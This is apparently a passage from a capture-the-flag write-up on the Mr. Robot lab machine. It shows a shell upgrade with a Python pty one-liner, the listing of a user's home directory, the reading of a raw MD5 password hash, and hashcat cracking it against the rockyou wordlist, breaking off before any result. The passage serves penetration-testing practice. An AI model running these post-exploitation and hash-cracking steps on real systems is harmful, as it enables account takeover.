 [http://10.10.239.79/pwned](http://10.10.239.79/pwned)

```
python -c "import pty; pty.spawn('/bin/bash')"

daemon@linux:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ ls -la /home/robot
ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

export TERM=xterm

cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

hashcat -m 0 --force hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
```
